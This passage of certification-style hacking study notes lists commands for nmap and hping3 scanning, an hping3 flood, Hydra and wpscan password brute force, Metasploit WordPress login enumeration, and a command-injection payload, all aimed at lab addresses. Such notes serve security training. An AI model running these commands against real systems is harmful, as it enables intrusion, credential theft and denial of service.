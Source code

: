 7- If host is windows then use this command - nmap --script smb-os-discovery.nse 192.168.12.22 (this script determines the OS, computer name, domain, workgroup, time over smb protocol (ports 445 or 139).
8- nmap command for source port manipulation, in this port is given or we use common port-  nmap -g 80 10.10.10.10
----------------------------------------------------------------------------------------------------------------
• Port Scanning using Hping3: hping3 --scan 1-3000 -S 10.10.10.10 
--scan parameter defines the port range to scan and –S represents SYN flag.
• Pinging the target using HPing3: hping3 -c 3 10.10.10.10 -c 3 means that we only want to send three packets to the target machine.
• UDP Packet Crafting hping3 10.10.10.10 --udp --rand-source --data 500
• TCP SYN request hping3 -S 10.10.10.10 -p 80 -c 5
-S will perform TCP SYN request on the target machine, -p will pass the traffic through which port is assigned, and -c is the count of the packets sent to the Target machine.
• HPing flood : hping3 10.10.10.10 –flood
---------------------------------------------------------------------------
Hacking Web Servers
•	FTP Bruteforce with Hydra
o	hydra -L /root/Desktop/Wordlists/Usernames.txt -P /root/Desktop/Wordlists/Passwords.txt ftp://10.10.10.11
---------------------------------------------------------------------------------------------------------------
1- Footprinting web server Using Netcat and Telnet- nc -vv www.movies.com 80
						    GET /HTTP/1.0
						    telnet www.movies.com 80
						    GET /HTTP/1.0
2- Enumerate Web server info using nmap-  nmap -sV --script=http-enum www.movies.com
3- Crack FTP credentials using nmap-  nmap -p 21 10.10.10.10 (check if it is open or not)
				      ftp 10.10.10.10 (To see if it is directly connecting or needing credentials)
Then go to Desktop and in Ceh tools folder you will find wordlists, here you will find usernames and passwords file.
Now in terminal type-  hydra -L /home/attacker/Desktop/CEH_TOOLS/Wordlists/Username.txt -P /home/attacker/Desktop/CEH_TOOLS/Wordlists/Password.txt ftp://10.10.10.10

hydra -l user -P passlist.txt ftp://10.10.10.10

----------------------------------------------------------------------------------------------------------------

Hacking Web Applications
•	Wordpress:
o	wpscan --url http://10.10.10.12:8080/CEH --enumerate u
o	wpscan --url http://IP/wp-login.php --usernames username --passwords /usr/share/wordlists/rockyou.txt --max-threads 50
o	wpscan --url IP --enumerate u
•	WP password bruteforce
o	msfconsole
o	use auxiliary/scanner/http/wordpress_login_enum
•	RCE 
o	ping 127.0.0.1 | hostname | net user
---------------------------------------------------------------------------------------------------------------
wpscan --url http://172.16.0.27:8080/CEH/ -u james -P /path/pass.txt
wpscan --url https://example/ --enumerate u (To enumerate the user)
----------------------------------------------------------------------------------------------------------------
